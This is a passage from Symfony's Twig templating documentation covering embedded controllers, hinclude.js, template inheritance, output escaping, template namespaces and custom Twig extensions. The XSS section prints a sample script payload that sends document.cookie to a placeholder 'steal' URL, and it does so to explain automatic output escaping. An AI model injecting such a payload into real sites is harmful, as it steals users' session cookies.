           use the controller() function to define the controller to execute #}
        {{ render(controller(
            'App\\Controller\\BlogController::recentArticles', {max: 3}
        )) }}
    </div>

.. _fragments-path-config:

When using the ``controller()`` function, controllers are not accessed using a
regular Symfony route but through a special URL used exclusively to serve those
template fragments. Configure that special URL in the ``fragments`` option:

.. configuration-block::

    .. code-block:: yaml

        # config/packages/framework.yaml
        framework:
            # ...
            fragments: { path: /_fragment }

    .. code-block:: xml

        <!-- config/packages/framework.xml -->
        <?xml version="1.0" encoding="UTF-8" ?>
        <container xmlns="http://symfony.com/schema/dic/services"
            xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
            xmlns:framework="http://symfony.com/schema/dic/symfony"
            xsi:schemaLocation="http://symfony.com/schema/dic/services
                https://symfony.com/schema/dic/services/services-1.0.xsd
                http://symfony.com/schema/dic/symfony https://symfony.com/schema/dic/symfony/symfony-1.0.xsd">

            <!-- ... -->
            <framework:config>
                <framework:fragment path="/_fragment"/>
            </framework:config>
        </container>

    .. code-block:: php

        // config/packages/framework.php
        use Symfony\Config\FrameworkConfig;

        return static function (FrameworkConfig $framework): void {
            // ...
            $framework->fragments()->path('/_fragment');
        };

.. warning::

    Embedding controllers requires making requests to those controllers and
    rendering some templates as result. This can have a significant impact on
    the application performance if you embed lots of controllers. If possible,
    :doc:`cache the template fragment </http_cache/esi>`.

.. _templates-hinclude:

How to Embed Asynchronous Content with hinclude.js
--------------------------------------------------

Templates can also embed contents asynchronously with the ``hinclude.js``
JavaScript library.

First, include the `hinclude.js`_ library in your page
:ref:`linking to it <templates-link-to-assets>` from the template or adding it
to your application JavaScript :doc:`using AssetMapper </frontend>`.

As the embedded content comes from another page (or controller for that matter),
Symfony uses a version of the standard ``render()`` function to configure
``hinclude`` tags in templates:

.. code-block:: twig

    {{ render_hinclude(controller('...')) }}
    {{ render_hinclude(url('...')) }}

.. note::

    When using the ``controller()`` function, you must also configure the
    :ref:`fragments path option <fragments-path-config>`.

When JavaScript is disabled or it takes a long time to load you can display a
default content rendering some template:

.. configuration-block::

    .. code-block:: yaml

        # config/packages/framework.yaml
        framework:
            # ...
            fragments:
                hinclude_default_template: hinclude.html.twig

    .. code-block:: xml

        <!-- config/packages/framework.xml -->
        <?xml version="1.0" encoding="UTF-8" ?>
        <container xmlns="http://symfony.com/schema/dic/services"
            xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
            xmlns:framework="http://symfony.com/schema/dic/symfony"
            xsi:schemaLocation="http://symfony.com/schema/dic/services
                https://symfony.com/schema/dic/services/services-1.0.xsd
                http://symfony.com/schema/dic/symfony https://symfony.com/schema/dic/symfony/symfony-1.0.xsd">

            <!-- ... -->
            <framework:config>
                <framework:fragments hinclude-default-template="hinclude.html.twig"/>
            </framework:config>
        </container>

    .. code-block:: php

        // config/packages/framework.php
        use Symfony\Config\FrameworkConfig;

        return static function (FrameworkConfig $framework): void {
            // ...
            $framework->fragments()
                ->hincludeDefaultTemplate('hinclude.html.twig')
            ;
        };

You can define default templates per ``render()`` function (which will override
any global default template that is defined):

.. code-block:: twig

    {{ render_hinclude(controller('...'),  {
        default: 'default/content.html.twig'
    }) }}

Or you can also specify a string to display as the default content:

.. code-block:: twig

    {{ render_hinclude(controller('...'), {default: 'Loading...'}) }}

Use the ``attributes`` option to define the value of hinclude.js options:

.. code-block:: twig

    {# by default, cross-site requests don't use credentials such as cookies, authorization
       headers or TLS client certificates; set this option to 'true' to use them #}
    {{ render_hinclude(controller('...'), {attributes: {'data-with-credentials': 'true'}}) }}

    {# by default, the JavaScript code included in the loaded contents is not run;
       set this option to 'true' to run that JavaScript code #}
    {{ render_hinclude(controller('...'), {attributes: {evaljs: 'true'}}) }}

.. _template_inheritance-layouts:

Template Inheritance and Layouts
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

As your application grows you'll find more and more repeated elements between
pages, such as headers, footers, sidebars, etc. :ref:`Including templates <templates-include>`
and :ref:`embedding controllers <templates-embed-controllers>` can help, but
when pages share a common structure, it's better to use **inheritance**.

The concept of `Twig template inheritance`_ is similar to PHP class inheritance.
You define a parent template that other templates can extend from and child
templates can override parts of the parent template.

Symfony recommends the following three-level template inheritance for medium and
complex applications:

* ``templates/base.html.twig``, defines the common elements of all application
  templates, such as ``<head>``, ``<header>``, ``<footer>``, etc.;
* ``templates/layout.html.twig``, extends from ``base.html.twig`` and defines
  the content structure used in all or most of the pages, such as a two-column
  content + sidebar layout. Some sections of the application can define their
  own layouts (e.g. ``templates/blog/layout.html.twig``);
* ``templates/*.html.twig``, the application pages which extend from the main
  ``layout.html.twig`` template or any other section layout.

In practice, the ``base.html.twig`` template would look like this:

.. code-block:: html+twig

    {# templates/base.html.twig #}
    <!DOCTYPE html>
    <html>
        <head>
            <meta charset="UTF-8">
            <title>{% block title %}My Application{% endblock %}</title>
            {% block stylesheets %}
                <link rel="stylesheet" type="text/css" href="/css/base.css"/>
            {% endblock %}
        </head>
        <body>
            {% block body %}
                <div id="sidebar">
                    {% block sidebar %}
                        <ul>
                            <li><a href="{{ path('homepage') }}">Home</a></li>
                            <li><a href="{{ path('blog_index') }}">Blog</a></li>
                        </ul>
                    {% endblock %}
                </div>

                <div id="content">
                    {% block content %}{% endblock %}
                </div>
            {% endblock %}
        </body>
    </html>

The `Twig block tag`_ defines the page sections that can be overridden in the
child templates. They can be empty, like the ``content`` block or define a default
content, like the ``title`` block, which is displayed when child templates don't
override them.

The ``blog/layout.html.twig`` template could be like this:

.. code-block:: html+twig

    {# templates/blog/layout.html.twig #}
    {% extends 'base.html.twig' %}

    {% block content %}
        <h1>Blog</h1>

        {% block page_contents %}{% endblock %}
    {% endblock %}

The template extends from ``base.html.twig`` and only defines the contents of
the ``content`` block. The rest of the parent template blocks will display their
default contents. However, they can be overridden by the third-level inheritance
template, such as ``blog/index.html.twig``, which displays the blog index:

.. code-block:: html+twig

    {# templates/blog/index.html.twig #}
    {% extends 'blog/layout.html.twig' %}

    {% block title %}Blog Index{% endblock %}

    {% block page_contents %}
        {% for article in articles %}
            <h2>{{ article.title }}</h2>
            <p>{{ article.body }}</p>
        {% endfor %}
    {% endblock %}

This template extends from the second-level template (``blog/layout.html.twig``)
but overrides blocks of different parent templates: ``page_contents`` from
``blog/layout.html.twig`` and ``title`` from ``base.html.twig``.

When you render the ``blog/index.html.twig`` template, Symfony uses three
different templates to create the final contents. This inheritance mechanism
boosts your productivity because each template includes only its unique contents
and leaves the repeated contents and HTML structure to some parent templates.

.. warning::

    When using ``extends``, a child template is forbidden to define template
    parts outside of a block. The following code throws a ``SyntaxError``:

    .. code-block:: html+twig

        {# templates/blog/index.html.twig #}
        {% extends 'base.html.twig' %}

        {# the line below is not captured by a "block" tag #}
        <div class="alert">Some Alert</div>

        {# the following is valid #}
        {% block content %}My cool blog posts{% endblock %}

Read the `Twig template inheritance`_ docs to learn more about how to reuse
parent block contents when overriding templates and other advanced features.

.. _output-escaping:
.. _xss-attacks:

Output Escaping and XSS Attacks
-------------------------------

Imagine that your template includes the ``Hello {{ name }}`` code to display the
user name and a malicious user sets the following as their name:

.. code-block:: html

    My Name
    <script type="text/javascript">
        document.write('<img src="https://example.com/steal?cookie=' + encodeURIComponent(document.cookie) + '" style="display:none;">');
    </script>

You'll see ``My Name`` on screen but the attacker just secretly stole your cookies
so they can impersonate you on other websites. This is known as a `Cross-Site Scripting`_
or XSS attack.

To prevent this attack, use *"output escaping"* to transform the characters
which have special meaning (e.g. replace ``<`` by the ``&lt;`` HTML entity).
Symfony applications are safe by default because they perform automatic output
escaping:

.. code-block:: html+twig

    <p>Hello {{ name }}</p>
    {# if 'name' is '<script>alert('hello!')</script>', Twig will output this:
       '<p>Hello &lt;script&gt;alert(&#39;hello!&#39;)&lt;/script&gt;</p>' #}

If you are rendering a variable that is trusted and contains HTML contents,
use the `Twig raw filter`_ to disable the output escaping for that variable:

.. code-block:: html+twig

    <h1>{{ product.title|raw }}</h1>
    {# if 'product.title' is 'Lorem <strong>Ipsum</strong>', Twig will output
       exactly that instead of 'Lorem &lt;strong&gt;Ipsum&lt;/strong&gt;' #}

Read the `Twig output escaping docs`_ to learn more about how to disable output
escaping for a block or even an entire template.

.. _templates-namespaces:

Template Namespaces
-------------------

Although most applications store their templates in the default ``templates/``
directory, you may need to store some or all of them in different directories.
Use the ``twig.paths`` option to configure those extra directories. Each path is
defined as a ``key: value`` pair where the ``key`` is the template directory and
the ``value`` is the Twig namespace, which is explained later:

.. configuration-block::

    .. code-block:: yaml

        # config/packages/twig.yaml
        twig:
            # ...
            paths:
                # directories are relative to the project root dir (but you
                # can also use absolute directories)
                'email/default/templates': ~
                'backend/templates': ~

    .. code-block:: xml

        <!-- config/packages/twig.xml -->
        <container xmlns="http://symfony.com/schema/dic/services"
            xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
            xmlns:twig="http://symfony.com/schema/dic/twig"
            xsi:schemaLocation="http://symfony.com/schema/dic/services
                https://symfony.com/schema/dic/services/services-1.0.xsd
                http://symfony.com/schema/dic/twig https://symfony.com/schema/dic/twig/twig-1.0.xsd">

            <twig:config>
                <!-- ... -->
                <!-- directories are relative to the project root dir (but you
                     can also use absolute directories -->
                <twig:path>email/default/templates</twig:path>
                <twig:path>backend/templates</twig:path>
            </twig:config>
        </container>

    .. code-block:: php

        // config/packages/twig.php
        use Symfony\Config\TwigConfig;

        return static function (TwigConfig $twig): void {
            // ...

            // directories are relative to the project root dir (but you
            // can also use absolute directories)
            $twig->path('email/default/templates', null);
            $twig->path('backend/templates', null);
        };

When rendering a template, Symfony looks for it first in the ``twig.paths``
directories that don't define a namespace and then falls back to the default
template directory (usually, ``templates/``).

Using the above configuration, if your application renders for example the
``layout.html.twig`` template, Symfony will first look for
``email/default/templates/layout.html.twig`` and ``backend/templates/layout.html.twig``.
If any of those templates exists, Symfony will use it instead of using
``templates/layout.html.twig``, which is probably the template you wanted to use.

Twig solves this problem with **namespaces**, which group several templates
under a logic name unrelated to their actual location. Update the previous
configuration to define a namespace for each template directory:

.. configuration-block::

    .. code-block:: yaml

        # config/packages/twig.yaml
        twig:
            # ...
            paths:
                'email/default/templates': 'email'
                'backend/templates': 'admin'

    .. code-block:: xml

        <!-- config/packages/twig.xml -->
        <container xmlns="http://symfony.com/schema/dic/services"
            xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
            xmlns:twig="http://symfony.com/schema/dic/twig"
            xsi:schemaLocation="http://symfony.com/schema/dic/services
                https://symfony.com/schema/dic/services/services-1.0.xsd
                http://symfony.com/schema/dic/twig https://symfony.com/schema/dic/twig/twig-1.0.xsd">

            <twig:config>
                <!-- ... -->
                <twig:path namespace="email">email/default/templates</twig:path>
                <twig:path namespace="admin">backend/templates</twig:path>
            </twig:config>
        </container>

    .. code-block:: php

        // config/packages/twig.php
        use Symfony\Config\TwigConfig;

        return static function (TwigConfig $twig): void {
            // ...

            $twig->path('email/default/templates', 'email');
            $twig->path('backend/templates', 'admin');
        };

Now, if you render the ``layout.html.twig`` template, Symfony will render the
``templates/layout.html.twig`` file. Use the special syntax ``@`` + namespace to
refer to the other namespaced templates (e.g. ``@email/layout.html.twig`` and
``@admin/layout.html.twig``).

.. note::

    A single Twig namespace can be associated with more than one template
    directory. In that case, the order in which paths are added is important
    because Twig will start looking for templates from the first defined path.

Bundle Templates
~~~~~~~~~~~~~~~~

If you :ref:`install packages/bundles <symfony-flex>` in your application, they
may include their own Twig templates (in the ``Resources/views/`` directory of
each bundle). To avoid messing with your own templates, Symfony adds bundle
templates under an automatic namespace created after the bundle name.

For example, the templates of a bundle called ``AcmeBlogBundle`` are available
under the ``AcmeBlog`` namespace. If this bundle includes the template
``<your-project>/vendor/acme/blog-bundle/templates/user/profile.html.twig``,
you can refer to it as ``@AcmeBlog/user/profile.html.twig``.

.. tip::

    You can also :ref:`override bundle templates <override-templates>` in case
    you want to change some parts of the original bundle templates.

.. _templates-twig-extension:

Writing a Twig Extension
------------------------

`Twig Extensions`_ allow the creation of custom functions, filters, and more to use
in your Twig templates. Before writing your own Twig extension, check if
the filter/function that you need is not already implemented in:

* The `default Twig filters and functions`_;
* The :doc:`Twig filters and functions added by Symfony </reference/twig_reference>`;
* The `official Twig extensions`_ related to strings, HTML, Markdown, internationalization, etc.

Create the Extension Class
~~~~~~~~~~~~~~~~~~~~~~~~~~

Suppose you want to create a new filter called ``price`` that formats a number
as currency:

.. code-block:: twig

    {{ product.price|price }}

    {# pass in the 3 optional arguments #}
    {{ product.price|price(2, ',', '.') }}

Create a class that extends ``AbstractExtension`` and fill in the logic::

    // src/Twig/AppExtension.php
    namespace App\Twig;

    use Twig\Extension\AbstractExtension;
    use Twig\TwigFilter;

    class AppExtension extends AbstractExtension
    {
        public function getFilters(): array
        {
            return [
                new TwigFilter('price', [$this, 'formatPrice']),
            ];
        }

        public function formatPrice(float $number, int $decimals = 0, string $decPoint = '.', string $thousandsSep = ','): string
        {
            $price = number_format($number, $decimals, $decPoint, $thousandsSep);
            $price = '$'.$price;

            return $price;
        }
    }

If you want to create a function instead of a filter, define the
``getFunctions()`` method::

    // src/Twig/AppExtension.php
    namespace App\Twig;

    use Twig\Extension\AbstractExtension;
    use Twig\TwigFunction;

    class AppExtension extends AbstractExtension
    {
        public function getFunctions(): array
        {
            return [
                new TwigFunction('area', [$this, 'calculateArea']),
            ];
        }

        public function calculateArea(int $width, int $length): int
        {
            return $width * $length;
        }
    }

.. tip::

    Along with custom filters and functions, you can also register
    `global variables`_.

Register an Extension as a Service
..................................

Next, register your class as a service and tag it with ``twig.extension``. If you're
using the :ref:`default services.yaml configuration <service-container-services-load-example>`,
you're done! Symfony will automatically know about your new service and add the tag.

You can now start using your filter in any Twig template. Optionally, execute
this command to confirm that your new filter was successfully registered:

.. code-block:: terminal

    # display all information about Twig
    $ php bin/console debug:twig

    # display only the information about a specific filter
    $ php bin/console debug:twig --filter=price

.. _lazy-loaded-twig-extensions:

Creating Lazy-Loaded Twig Extensions
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

Including the code of the custom filters/functions in the Twig extension class
is the simplest way to create extensions. However, Twig must initialize all
extensions before rendering any template, even if the template doesn't use an
extension.

If extensions don't define dependencies (i.e. if you don't inject services in
them) performance is not affected. However, if extensions define lots of complex
dependencies (e.g. those making database connections), the performance loss can
be significant.

That's why Twig allows decoupling the extension definition from its
implementation. Following the same example as before, the first change would be
to remove the ``formatPrice()`` method from the extension and update the PHP
callable defined in ``getFilters()``::

    // src/Twig/AppExtension.php
    namespace App\Twig;

    use App\Twig\AppRuntime;
    use Twig\Extension\AbstractExtension;
    use Twig\TwigFilter;

    class AppExtension extends AbstractExtension
    {
        public function getFilters(): array
        {
            return [
                // the logic of this filter is now implemented in a different class
                new TwigFilter('price', [AppRuntime::class, 'formatPrice']),
            ];
        }
    }

Then, create the new ``AppRuntime`` class (it's not required but these classes
are suffixed with ``Runtime`` by convention) and include the logic of the
previous ``formatPrice()`` method::

    // src/Twig/AppRuntime.php
    namespace App\Twig;

    use Twig\Extension\RuntimeExtensionInterface;

    class AppRuntime implements RuntimeExtensionInterface
    {
        public function __construct()
        {
            // this simple example doesn't define any dependency, but in your own
            // extensions, you'll need to inject services using this constructor
        }

        public function formatPrice(float $number, int $decimals = 0, string $decPoint = '.', string $thousandsSep = ','): string
        {
            $price = number_format($number, $decimals, $decPoint, $thousandsSep);
            $price = '$'.$price;

            return $price;
        }
    }

If you're using the default ``services.yaml`` configuration, this will already
work! Otherwise, :ref:`create a service <service-container-creating-service>`
for this class and :doc:`tag your service </service_container/tags>` with ``twig.runtime``.

.. _`Cross-Site Scripting`: https://en.wikipedia.org/wiki/Cross-site_scripting
.. _`default Twig filters and functions`: https://twig.symfony.com/doc/3.x/#reference
.. _`filters`: https://twig.symfony.com/doc/3.x/filters/index.html
.. _`functions`: https://twig.symfony.com/doc/3.x/functions/index.html
.. _`GitHub Actions`: https://docs.github.com/en/free-pro-team@latest/actions
.. _`global variables`: https://twig.symfony.com/doc/3.x/advanced.html#id1
.. _`hinclude.js`: https://mnot.github.io/hinclude/
.. _`Turbo Streams`: https://symfony.com/bundles/ux-turbo/current/index.html
.. _`official Twig extensions`: https://github.com/twigphp?q=extra
.. _`snake case`: https://en.wikipedia.org/wiki/Snake_case
.. _`tags`: https://twig.symfony.com/doc/3.x/tags/index.html
.. _`Twig block tag`: https://twig.symfony.com/doc/3.x/tags/block.html
.. _`Twig Environment`: https://github.com/twigphp/Twig/blob/3.x/src/Environment.php
.. _`Twig Extensions`: https://twig.symfony.com/doc/3.x/advanced.html#creating-an-extension
.. _`Twig output escaping docs`: https://twig.symfony.com/doc/3.x/api.html#escaper-extension
.. _`Twig raw filter`: https://twig.symfony.com/doc/3.x/filters/raw.html
.. _`Twig template inheritance`: https://twig.symfony.com/doc/3.x/tags/extends.html
.. _`Twig template loader`: https://twig.symfony.com/doc/3.x/api.html#loaders
.. _`Twig`: https://twig.symfony.com
.. _`UX Live Component`: https://symfony.com/bundles/ux-live-component/current/index.html
.. _`UX Twig Component`: https://symfony.com/bundles/ux-twig-component/current/index.html
.. _`with_context`: https://twig.symfony.com/doc/3.x/functions/include.html
